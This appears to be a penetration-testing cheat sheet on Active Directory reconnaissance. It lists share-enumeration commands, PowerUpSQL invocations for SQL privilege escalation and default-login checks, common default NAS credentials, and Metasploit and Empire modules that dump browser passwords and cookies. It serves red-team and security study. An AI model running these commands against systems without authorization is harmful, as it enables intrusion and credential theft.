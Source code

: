<h1 align='center'>Active Directory</h1>
<ol>
  <li><a href='#recon'>Recon</a></li>
</ol>

<h2 align='center' id='recon'>Recon</h2>
<ol>
  <h3><li>SPN scanning</li></h3>
    <p>This <a href='https://github.com/gold1029/PowerShell-AD-Recon/blob/master/Discover-PSMSSQLServers'>script</a> can help</p>
    <p>Interestings services:</p>
      <ul>
        <li>SQL (MSSQLSvc/adsmsSQLAP01.ads.org:1433)</li>
        <li>Exchange (exchangeMDB/adsmsEXCAS01.ads.org)</li>
        <li>RDP (TERMSERV/adsmsEXCAS01.adsecurity.org)</li>
        <li>WSMan / WinRM / PS Remoting (WSMAN/adsmsEXCAS01.ads.org)</li>
        <li>Hyper-V (Microsoft Visual Console Service/adsmsHV01.ady.org)</li>
        <li>VMWare VCenter (STS/adsmsVC01.ads.org)</li>
      </ul>
  <h3><li>General Resources</li></h3>
    <ul>
      <li><code>> net share</code></li>
      <li><code>> net view</code></li>
      <li><code>> net view COMPUTER_NAME /all</code></li>
      <li><code>> wmic share get</code></li>
      <li><code>> wmic /node: COMPUTER_NAME share get</code></li>
    </ul>
    <p>Useful tool for searching - <a href='https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1'>PowerView</a>
  <h3><li>Data Bases</li></h3>
    <p>Useful tool - <a href='https://github.com/NetSPI/PowerUpSQL'>PowerUpSQL</a></p>
    <ul>
      <li>Find all local SQL instances: 
        <pre><code>Get-SQLInstanceLocal -Verbose</code></pre></li>
      <li>Find all local SQL instances in the domain or network:</li>
        <pre><code>Get-SQLInstanceDomain -Verbose</code></pre>
        <pre><code>Get-SQLInstanceBroadcast -Verbose</code></pre>
        <pre><code>Get-SQLInstanceScanUDP -Verbose</code></pre>
      <li>Collect info about instances:</li>
        <pre><code>Get-SQLInstanceLocal | Get-SQLServerInfo</code></pre>
      <li>Get a list of SQL instances to which the current user has access:</li>
        <pre><code>Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10</code></pre>
      <li>Try go get admin access:</li>
        <pre><code>Invoke-SQLEscalatePriv -Verbose -Instance "COMPUTER_NAME"</code></pre>
      <li>Enumerate SQL instances across the domain using default passwords:</li>
        <pre><code>Get-SQLInstanceDomain -Verbose | Get-SQLServerLoginDefault</code></pre>
      <li>Dump info about SQL server and db:
        <pre><code>Invoke-SQLDumpInfo -Verbose -Instance "COMPUTER_NAME"</code></pre>
      <li>Run audit function for SQL server:
        <pre><code>Invoke-SQLAudit -Verbose -Instance "COMPUTER_NAME"</code></pre>
    </ul>
<h3><li>Network Attached Storage</li></h3>
  <p>Default creds:</p>
    <ul>
      <li><code>admin:admin</code></li>
      <li><code>admin:password</code></li>
      <li><code>root:nasadmin</code></li>
      <li><code>nasadmin:nasadmin</code></li>
      <li><code>admin:"no pass"</code></li>
    </ul>
<h3><li>Users` data with priviligies</li></h3>
    <ul>
      <li>Useful tool - <a href='https://github.com/BloodHoundAD/BloodHound'>BloodHound</a></li>
      <li>PowerView and <a href='https://github.com/BC-SECURITY/Empire'>PowerShell Empire</a> module:</li>
        <pre><code>Find-DomainUserLocation -UserIdentity USER_NAME</code></pre>
        <pre><code>Find-DomainUserLocation -UserGroupIdentity GROUP_NAME</code></pre>
      <li>Local Data:</li>
        <p>Metasploit modules for check browser passwords:</p>
          <ul>
            <li><code>post/windows/gather/enum_chrome</code></li>
            <li><code>post/multi/gather/firefox/creds</code></li>
            <li><code>post/firefox/gather/cookies</code></li>
            <li><code>post/firefox/gather/passwords</code></li>
            <li><code>post/windows/gather/forensics/browser_history</code></li>
          </ul>
        <p>PowerShell Empire modules:
          <ul>
            <li><code>collcetion/ChromeDump</code></li>
            <li><code>collection/FoxDump</code></li>
          </ul>
    </ul>
</ol>
